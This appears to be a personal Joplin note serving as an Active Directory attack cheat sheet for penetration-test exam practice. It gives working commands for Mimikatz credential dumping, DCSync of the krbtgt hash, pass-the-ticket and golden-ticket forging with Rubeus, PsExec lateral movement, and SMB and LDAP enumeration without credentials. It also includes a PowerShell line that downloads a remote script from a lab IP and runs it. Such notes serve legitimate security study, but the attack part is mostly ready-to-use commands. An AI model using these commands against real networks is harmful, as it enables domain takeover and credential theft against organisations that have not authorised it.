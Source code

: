 0. AD CheatSheet

**USEFUL LINK FOR FINDING A SOLUTION**

https://wadcoms.github.io/#+Username+Hash

https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology

https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#dnsadmins-abuse

# Possible Ways to Break Into DC

Pass-The-Hash - Using NTLM Hash of users to gain access

> sekurlsa::logonpasswords - Get Hash credentials (PTH)
> 
> Get-NetLoggedOn using PowerView - Get users having sessions (Confirmed with BloodHound)
> 
> https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/over-pass-the-hash-pass-the-key
> 
> https://book.hacktricks.xyz/windows-hardening/ntlm#pass-the-hash

Pass-The-Ticket - Note that after a restart the ticket may not be valid

> https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast
> 
> https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/pass-the-ticket
> 
> \# Using Mimikatz - will need RDP to get the cmd session
> 
> kerberos::list
> 
> kerberos::list /export
> 
> kerberos::ptt ticket.kirbi
> 
> misc::cmd
> 
> \# Using Reubeus
> 
> Rubeus.exe asktgt /domain:ignite.local /user:Administrator /rc4: 32196b56ffe6f45e294117b91a83bf38 /ptt
> 
> dir \\\WIN-S0V7KMTVLD2\\c$
> 
> \# If we don't use Reubeus to ptt in the same session; reuse the ticket extracted
> 
> Rubeus.exe ptt /ticket:ticket.kirbi
> 
> PsExec.exe \\\192.168.1.105 cmd.exe
> 
> ipconfig

Golden Ticket Generation - Requires 'access' to krbtgt

https://pentestlab.blog/2018/04/09/golden-ticket/ 

> \# on Mimikatz - get SID and krbtgt hash
> 
> privilege::debug
> 
> `lsadump::dcsync /user:DOMAIN\KRBTGT`
> 
> \# Generate the golden ticket
> 
> kerberos::golden /user:pavan /domain:DOMAIN /sid:S-1-5-21-3523557010-2506964455-2614950430 /krbtgt:f3bc61e97fb14d18c42bcbf6c3a9055f /id:500 /ptt
> 
> misc::cmd
> 
> PsExec64.exe \\\192.168.1.105 cmd.exe
> 
> ipconfig

BloodHound Detection

1.  Kerberoasting
2.  ASREPRoasting - If user don't have attribute DONT\_REQ\_PREAUTH; Request a AS_REP message

BruteForce/PasswordSpray

Local Privilege Escalation - Normal "Domain User" have no privileges across machines. Local Admin Privileges can dump hashes of other users in memory and locally

MsSQL Tursted Links

Unconstrained Delegation

Constrained Delegation

![f60450c52b865087e0115c6de30378dd.png](:/4960fa7f05dd4d41869329273c58b72e)

# If no credentials

1.  **Check for null and Guest access on smb services** (this won't work on modern Windows versions):
    - `enum4linux -a -u "" -p "" <DC IP> && enum4linux -a -u "guest" -p "" <DC IP>`
    - `smbmap -u "" -p "" -P 445 -H <DC IP> && smbmap -u "guest" -p "" -P 445 -H <DC IP>`
    - `smbclient -U '%' -L //<DC IP> && smbclient -U 'guest%' -L //`
    - [**A more detailed guide on how to enumerate a SMB server can be found here.**](https://github.com/carlospolop/hacktricks/blob/master/windows/active-directory-methodology/broken-reference/README.md)
2.  **Enumerate LDAP**
    - ldapsearch
    - nmap -n -sV --script "ldap* and not brute" -p 389 &lt;DC IP&gt;
    - [**A more detailed guide on how to enumerate LDAP can be found here.**](/network-services-pentesting/pentesting-ldap)
3.  **Poison the network** (But OSCP cannot cuz its spoofing)
4.  OSINT techniques.

# ADPeaS

In ~/ADLibs

https://github.com/61106960/adPEAS

> IEX (New-Object Net.WebClient).DownloadString('http://192.168.49.154/adPEAS.ps1')
> 
> `Invoke-adPEAS -Domain 'contoso.com'`
> 
> `Invoke-adPEAS -Domain 'contoso.com' -Server 'dc1.contoso.com'`
> 
> `$SecPassword = ConvertTo-SecureString 'Passw0rd1!' -AsPlainText -Force $Cred = New-Object System.Management.Automation.PSCredential('contoso\johndoe', $SecPassword) Invoke-adPEAS -Domain 'contoso.com' -Cred $Cred`
> 
> `Invoke-adPEAS -Domain contoso.com -Username 'contoso\johndoe' -Password 'Passw0rd1!'`
> 
> `Invoke-adPEAS -Module Bloodhound -Scope All`

id: a11afaa273734c1cb355f718651db3df
parent_id: c900bb1263d649dd801144a9657e4075
created_time: 2022-02-03T02:30:34.100Z
updated_time: 2022-05-30T15:59:05.429Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-02-03T02:30:34.100Z
user_updated_time: 2022-05-30T15:59:05.429Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1